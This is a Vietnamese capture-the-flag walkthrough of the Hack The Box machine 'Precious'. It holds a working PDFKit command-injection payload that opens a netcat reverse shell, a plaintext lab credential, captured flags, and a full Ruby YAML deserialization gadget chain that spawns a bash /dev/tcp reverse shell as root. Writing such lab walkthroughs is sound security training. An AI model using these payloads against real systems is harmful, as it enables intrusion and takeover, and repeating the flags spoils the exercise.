

> [!NOTE]
> Mức độ: Dễ 
> OS: Linux
> Url: https://app.hackthebox.com/machines/Precious
> Mô tả: Precious là một máy ảo Linux ở mức độ khó "Dễ" (Easy), tập trung vào ngôn ngữ lập trình Ruby. Máy này chạy một ứng dụng web Ruby tùy chỉnh, sử dụng một thư viện đã lỗi thời là `pdfkit`. Thư viện này chứa lỗ hổng CVE-2022-25765, cho phép kẻ tấn công giành được quyền truy cập shell ban đầu trên hệ thống mục tiêu. Sau khi thực hiện bước chuyển hướng (pivot) nhờ vào thông tin đăng nhập dạng văn bản thuần (plaintext) tìm thấy trong tệp cấu hình kho lưu trữ Gem, quá trình khai thác kết thúc bằng một cuộc tấn công giải tuần tự hóa (deserialization) không an toàn nhắm vào một tập lệnh Ruby tùy chỉnh đã lỗi thời.

# Recon

## Port scan 

> Phát hiện 2 cổng tương ứng 2 dịch vụ ssh, http 

```
└─$ nmap -sSVC -Pn 10.129.228.98     
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-19 11:39 -0400
Nmap scan report for 10.129.228.98
Host is up (0.061s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)
|   256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)
|_  256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.07 seconds
```

## Web 

> Web có chức năng chuyển đổi website thành file pdf và cần cung cấp url web   
> Phân tích phản hồi phát hiện máy chủ được viết bằng ngôn ngữ ruby 



# Exploit 

> Ruby có thư viện PDFKit dùng để chuyển đổi dữ liệu từ kết quả 1 request thành tệp pdf  
> PDFKit v0.8.7.2  tồn tại lỗ hổng command injection trong url  
> https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795  
> Thử khai thác lỗ hổng và thành công 

```
http://example.com/?name=#{'%20`command`'}
```

> Khai thác lỗ hổng trên để tạo 1 reverse shell kết nối đến máy tấn công 

```
http://example.com/?name=#{'%20`busybox nc IP PORT -e bash`'}
```

```
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.15.211] from (UNKNOWN) [10.129.228.98] 59488
whoami
ruby
id
uid=1001(ruby) gid=1001(ruby) groups=1001(ruby)
```

# Privelege Escalation

## Leo thang lên người dùng henry 

> Liệt kê thư mục người dùng ruby thu được thông tin xác thực của henry `henry:Q3c1AqGHtoI0aXAYFH`

```
ruby@precious:~/.bundle$ ls -al
total 12
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .
drwxr-xr-x 5 ruby ruby 4096 Oct 19 12:57 ..
-r-xr-xr-x 1 root ruby   62 Sep 26  2022 config
ruby@precious:~/.bundle$ cat config 
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

> User flag 

```
51895f6ed7693a1bb0139247bfc65f76
```

## Leo thang lên root 

> Liệt kê các lệnh henry chạy với sudo  
> henry có thể chạy lệnh `/usr/bin/ruby /opt/update_dependencies.rb` với quyền root không cần mật khẩu 

```
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

> Nội dung tệp `/opt/update_dependencies.rb` có nạp vào 1 file yaml  `dependencies.yml`
> So sánh phiên bản các thư viện trong file yaml và phiên bản cục bộ rồi in ra kết quả 

```
henry@precious:~$ ruby -v
ruby 2.7.4p191 (2021-07-07 revision a21a3b7d23) [x86_64-linux-gnu]
henry@precious:~$ cat /opt/update_dependencies.rb
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

> Xác định phiên bản ruby 2.7.4 phiên bản này tồn tại lỗ hổng YAML Deserialization  
> Có thể khai thác lỗ hổng để chèn lệnh 
> https://snyk.io/blog/finding-yaml-injection-with-snyk-code/

```
ruby 2.7.4p191 (2021-07-07 revision a21a3b7d23) [x86_64-linux-gnu]
```

> Tạo file dependencies.yml trong thư mục có thể ghi và thực thi lệnh từ thư mục chứa file đó 
> Chèn lệnh thực thi trong file tạo reverse shell 

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'"
         method_id: :resolve

```

> Mở cổng lắng nghe có được shell root 

> Root flag

```
741ef9d2713b4b210cc0fc24b0b17513
```

# Kết luận 

> [!NOTE]
> - Cách vá lỗ hổng 
> + Cập nhật phiên bản ruby mới 
> + Xóa bản rõ thông tin xác thực của người dùng henry trong thư mục .bundle 